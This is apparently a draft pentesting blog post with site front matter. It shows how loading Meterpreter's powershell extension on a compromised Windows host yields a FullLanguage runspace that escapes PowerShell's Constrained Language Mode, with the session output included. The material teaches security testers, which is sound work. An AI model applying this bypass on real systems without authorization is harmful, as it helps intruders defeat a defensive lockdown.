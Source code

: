```yaml
---
title: "Powershell Constrained Mode Bypass With Meterpreter"
date: 2021-05-29T20:52:32-04:00
year: "2021"
month: "2021/05"
toc: false
comments: true
images:
tags:
draft: true
---
```


The powershell extension for meterpreter likely isn't a well known feature of
the meterpreter shell. Most pentesters are likely to just run powershell from
the command shell that meterpreter launches with the `shell` command instead
of loading the extension. But this can be problematic for environments that
lock down Powershell.

<!--more-->

As can be seen below, we have landed a meterpreter instance and dropped into a
command shell. We'd like to run some tools in Powershell, but after checking
the LanguageMode, we can see that we're in ConstrainedLanguage mode. Since
this blocks the tools we want to run, we exit the shell.

```
meterpreter > shell
Procdess 39630 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19042.985]
(c) Microsoft Corporation. All rights reserved.

C:\Users\victim> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\victim> $ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
PS C:\Users\victim> exit
exit

c:\Users\victim>exit
exit
```

The powershell extension in meterpreter doesn't provide a shell that is as
clean as the command shell built in to meterpreter and I've had issues trying
to exit it. But it loads an unmanaged Windows PowerShell Runspace which will
not be subject to the LanguageMode from the powershell executable.

Below we load the powershell extension, then drop into a shell using the new
`powershell_shell` command available to us. As can be seen, checking the 
LanguageMode now shows that we are in FullLanguage mode and can now load tools
that require this mode for operation.

```
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > $ExecutionContext.SessionState.LanguageMode
FullLanguage
PS > 
```